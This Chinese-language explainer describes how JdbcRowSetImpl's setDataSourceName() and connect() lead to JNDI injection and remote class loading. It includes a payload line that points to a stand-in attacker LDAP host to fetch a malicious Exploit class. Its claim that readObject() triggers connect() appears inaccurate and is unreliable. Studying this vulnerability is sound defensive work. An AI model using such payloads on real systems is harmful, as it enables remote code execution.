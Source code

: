 ### JdbcRowSetImpl 如何触发的 JNDI 注入

**1. 核心原理：`setDataSourceName()` 与 JNDI**

`com.sun.rowset.JdbcRowSetImpl` 是一个 JDK 自带的类，它实现了 `RowSet` 接口。`JdbcRowSetImpl` 的一个核心功能就是通过 **`DataSource`** 来连接数据库

- **`DataSource`**：`DataSource` 是一个标准的 Java 接口，用于获取数据库连接。它通常通过 JNDI来查找和绑定
- **`setDataSourceName()`**：当调用 `JdbcRowSetImpl` 的 `setDataSourceName()` 方法时，它会设置一个 JNDI 查找名称
- **`connect()`**：当 `JdbcRowSetImpl` 尝试建立连接时，会调用 `connect()` 方法，这个方法会使用 `InitialContext` 类，对 `setDataSourceName()` 设置的名称进行 JNDI 查找

**问题的关键在于**：当 `InitialContext` 查找的 URL 指向一个**远程的 RMI/LDAP 服务器**时，它会**自动下载并加载**服务器上绑定的 Java 对象

**2. 漏洞触发的完整过程**

攻击者就是利用这一点，将恶意服务器的地址作为 `DataSourceName`，让目标服务器在反序列化时，主动去下载和执行恶意代码

1. **攻击者搭建恶意服务**：
   - 攻击者首先需要搭建一个恶意的 **LDAP 或 RMI 服务器**
   - 在这个服务器上，攻击者会绑定一个恶意的 Java 对象。这个对象通常是一个**`Exploit.java`**文件，它包含了一个 `static` 静态代码块，可以在被加载时自动执行，例如执行 `Runtime.exec()` 命令
2. **构造恶意 Payload**：
   - 攻击者构造一个恶意的序列化 `JdbcRowSetImpl` 对象
   - 在这个对象中，攻击者会利用反射等方法，将 `DataSourceName` 属性设置为恶意服务的地址
   - 例如：`new JdbcRowSetImpl().setDataSourceName("ldap://<攻击机IP>:<端口>/Exploit")`
   - **注意**：这里的 `ldap://` 是 JNDI 查找的协议，`<攻击机IP>` 是攻击者服务器的地址，`Exploit` 是攻击者在服务器上绑定的恶意对象名
3. **发送 Payload**：
   - 攻击者将这个序列化后的 `JdbcRowSetImpl` 对象发送给存在反序列化漏洞的目标应用程序
   - 这个过程可以是通过 HTTP 请求、文件上传或其他方式
4. **目标服务器反序列化**：
   - 目标应用程序接收到数据后，对 `JdbcRowSetImpl` 对象进行反序列化
   - 在反序列化过程中，`JdbcRowSetImpl` 的 `readObject()` 方法被调用
   - `readObject()` 方法会触发 `connect()` 方法的调用
5. **触发 JNDI 注入**：
   - `connect()` 方法会使用 `InitialContext` 对恶意地址 `ldap://<攻击机IP>:<端口>/Exploit` 进行 JNDI 查找
   - 由于 `java.naming.factory.initial` 等配置，或者因为 JDK 版本过低，JVM 会无条件信任远程查找的结果
   - JVM 会连接到攻击者的 LDAP 服务器，下载并加载 `Exploit` 这个恶意对象
   - 当 `Exploit` 对象被加载到内存时，其静态代码块会自动执行，从而执行攻击者预设的系统命令
